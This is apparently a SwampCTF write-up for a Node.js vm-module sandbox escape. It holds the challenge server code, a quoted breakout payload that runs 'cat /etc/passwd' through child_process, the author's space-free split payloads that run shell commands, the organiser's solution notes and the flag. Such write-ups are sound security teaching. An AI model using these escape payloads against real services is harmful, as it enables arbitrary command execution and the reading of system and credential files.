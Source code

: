 # Reptilian Server
> You are a human spy sent to gather information on a new centralized computing station that the Reptilians have developed, and is being used to house important secrets. In order to blend in, you learned the Reptilian language, which is similar to English except there are no spaces and you can't talk for too long.

> Using your unique skillset, gather as much information from the Reptilians as you can. If you can tell us how they started the server we can replicate it ourselves. There may be a flag in it for you if you do.

> The flag will be in the standard format for SwampCTF.

## About the Challenge
We got a server to connect and also Javascript source code called `server.js`. Here is the content of `server.js`:

```javascript
const vm = require('node:vm');
const net = require('net');

// Get the port from the environment variable (default to 3000)
const PORT = process.env.PORT || 3000;

// Create a TCP server
const server = net.createServer((sock) => {
    console.log('Client connected!');
    sock.write(`Welcome to the ReptilianRealm! Please wait while we setup the virtual environment.\n`);

    const box = vm.createContext(Object.create({
        console: {
            log: (output) => {
                sock.write(output + '\n');
            }
        },
        eval: (x) => eval(x)
    }));

    sock.write(`Environment created, have fun playing with the environment!\n`);

    sock.on('data', (data) => {
        const c = data.toString().trim();

        if (c.indexOf(' ') >= 0 || c.length > 60) {
            sock.write("Intruder Alert! Removing unwelcomed spy from centeralized computing center!");
            sock.end();
            return;
        }

        try {
            const s = new vm.Script(c);
            s.runInContext(box, s);
        } catch (e) {
            sock.write(`Error executing command: ${e.message} \n`);
        }
    });

    sock.on('end', () => { console.log('Client disconnected!'); });
});

// Handle server errors
server.on('error', (e) => {
    console.error('Server error:', e);
});

// Start the server listening on correct port.
server.listen(PORT, () => {
    console.log(`Server listening on port ${PORT}`);
});
```

We can execute a JS code but there are 2 restriction here:

* There must be no whitespace in the input
* The length of each input cannot exceed 60 characters

## How to Solve?
To solve this chall, Im using this repository as a reference (https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet) and then I saw `vm module breakout` section

```js
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);
```

Because we can't enter a string that exceeds 60 characters, so I just divided it into several variables. To bypass space constraints, I use `String.fromCharCode(32)` which is the equivalent of spaces

```js
space=String.fromCharCode(32)
d="return"+space+"this.process"
proc=this.constructor.constructor(d)();
la=proc.mainModule.require('child_process');
console.log(la.execSync('ls').toString())
console.log(la.execSync('cat${IFS}Dockerfile').toString())
```


[Image extracted text: Welcome
to
the
ReptilianRealm!
Please
wait
while
we
setup
the
virtual
environment
Environment
created,
have
fun playing
with
the
environment !
[space-String
fromCharCode( 32)
d=
return
+space+
this.process"
proc-this.constructor
constructor(d) ( ) ;
la-proc
mainModule.require( ' child_process' ) ;
console.log(la.execSync( 'ls
).toString() )
Dockerfile
bin
boot
challenge
md
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
server.js
solution
md
Srv
Sys
tmp
usr
var
console.log ( la.execSync(
cats{IFS}Dockerfile' ) .toString( ) )
#
Use
official
Node.js
18 image
as
base
FROM
node: 18
#
Set
the
working directory
inside
the
container
WORKDIR
#
the
rest
of
the application
code
COPY
#
Set
environment
variable
for port
ENV
PORT-8000
#
Expose
the port specified
in
the
environment
variable
EXPOSE
SPORT
# Command
to
run
the
application
can
put
lots
of
extra
args
in
the actual
dockerfile
to hide
the
some )
CMD
["node"
server.js"
server_
max_limit-600"
language-Reptilian"
"version-1.0.0"
"flag-swampCTF{Unic0d3_FOr_
Th3_WIn}
shutdown_condition-never" ]
Copy
(you
flag]


> btw I solved this challenge using unintended ways. Here is the solution provided by the author, which I found by reading the `solution.md` file on the server

```
console.log(la.execSync('cat${IFS}*.md').toString())
# Challenge

You are a human spy sent to gather information on a new centralized computing station that the Reptilians have developed, and is being used to house important secrets. In order to blend in, you learned the Reptilian language, which is similar to English except there are no spaces and you can't talk for too long. 

Using your unique skillset, gather as much information from the Reptilians as you can. If you can tell us how they started the server we can replicate it ourselves. There may be a flag in it for you if you do. 

The flag will be in the standard format for SwampCTF.# Solution to Reptilian Server

The solution to this challenge is complex, and the main difficulty is in establishing the VM escape. 

Its easy to see from the dockerfile that the flag will be provided as an argument to the process running the server.
In order to access that flag, you must escape the VM which runs your commands. This payload would normally do the trick: 

console.log((this.constructor.constructor('return (process.argv)'))())

However, to blend in with the reptillians we need to shorten this payload and remove the spaces from it. 

To shorten the payload, we can break it up into sections by storing parts of the payload in variables, like so:

let b='return (process.argv)'
let a=this.constructor.constructor(b);
console.log(a())

Then, in order to write this without any spaces, we can use a combination of String.fromCharCode and a unicode character "Paragraph Separator" (U+2029) 
to rewrite the payload without spaces, solving the challenge. 

let b='return+String.fromCharCode("160")+(process.argv)'
let a=this.constructor.constructor(b);
console.log(a())
```

```
swampCTF{Unic0d3_F0r_Th3_W1n}
```